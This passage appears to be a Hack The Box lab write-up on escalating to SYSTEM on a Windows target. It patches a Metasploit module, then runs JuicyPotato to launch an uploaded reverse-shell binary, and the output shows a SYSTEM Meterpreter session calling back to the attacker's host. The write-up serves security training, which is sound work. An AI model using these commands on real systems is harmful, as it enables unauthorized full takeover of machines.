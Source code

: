 ```
```

Normally when reviewing possible exploits, experience will tell you which ones are likely to work better than others. In some cases though it might be a question of trial and error to find one that works. This could be a problem if any of the exploits leave the machine in an unstable state. If that is the case in Hack The Box, you can ask for the machine to be reset.

{% hint style="danger" %}
There is a bug in the current version of Metasploit. If you get an exception "Post failed - NameError uninitialized constant Msf::Exploit::CheckCode::NotSupported" there is a fix on GitHub

Otherwise, you can edit the file yourself:

```bash
sudo vi /usr/share/metasploit-framework/modules/exploits/windows/\
local/cve_2020_1054_drawiconex_lpe.rb
```

and change line 112 from CheckCode::NotSupported to CheckCode::Safe

```
Remove this on 112 --> return CheckCode::NotSupported
Add this instead   --> return CheckCode::Safe("No target for win32k.sys 
                                        version #{build_num_gemversion}")
```

\
restart Metasploit after this.
{% endhint %}

From experience, I know that the most promising exploit is going to be _**ms16\_075\_reflection\_juicy**_ which is the _**JuicyPotato**_ exploit. This vulnerability allows for privilege escalation through impersonation of the System user. It occurs if the user doing the exploit has certain privileges, notable the _**SeImpersonate**_ privilege. Unfortunately, the Metasploit module doesn’t work as is and so you have to do this manually by downloading _**JuicyPotato.exe**_ from [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

We can run another handler as before and then upload JuicyPotato.exe. One more step however as executing it from the Meterpreter prompt doesn’t work. So you can drop into a cmd.exe shell prompt by typing “_**shell**_”. From the command prompt, you can then run the JuicyPotato.exe

```bash
JuicyPotato.exe -t * -p ^
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr\revshell.exe -l 1337
```

Remember to change the path of the _**revshell.exe**_ to the actual path name Meterpreter has used. When _**JuicyPotato.exe**_ runs, it will start another _**Meterpreter**_ session but as the privileged user that the exploit has impersonated, _**NT AUTHORITY\SYSTEM**_. From there, you can cd (change directory) into the **c:\Users\Administrator\Desktop** directory and find the flag.

```bash
meterpreter > shell
Process 376 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>JuicyPotato.exe ^
-t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr\revshell.exe ^
 -l 1337
juicypot.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\
                         dBPEarcLsr\revshell.exe -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>
   [*] Meterpreter session 3 opened (10.10.14.3:6001 -> 10.10.10.29:56144) 
      at 2020-10-08 14:38:04 +0800
```